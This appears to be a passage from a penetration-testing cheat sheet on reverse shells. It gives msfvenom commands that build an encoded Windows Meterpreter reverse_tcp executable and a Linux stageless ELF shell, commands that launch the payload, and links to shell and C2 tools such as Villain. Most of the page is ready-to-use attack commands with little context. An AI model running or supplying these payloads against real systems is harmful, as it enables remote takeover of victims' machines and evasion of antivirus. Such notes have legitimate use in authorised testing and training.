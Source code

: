 ## Ruby

{% embed url="https://github.com/secjohn/ruby-shells" %}

## Meterpreter

{% code overflow="wrap" fullWidth="true" %}
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe
# TO START THE SHELL
Start-Process "shell-name.exe"
.\file.exe
# LINUX STAGELESS PAYLOAD
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell-x64.elf
```
{% endcode %}

## JWT

[https://github.com/Xyan1d3/JWT\_Forward\_Shell/tree/main](https://github.com/Xyan1d3/JWT_Forward_Shell/tree/main)

## Extra

[https://thehackerway.com/2022/11/16/como-crear-una-reverse-shell-cifrada-parte-2-de-2/\
https://github.com/t3l3machus/Villain](https://thehackerway.com/2022/11/16/como-crear-una-reverse-shell-cifrada-parte-2-de-2/https://github.com/t3l3machus/Villain)
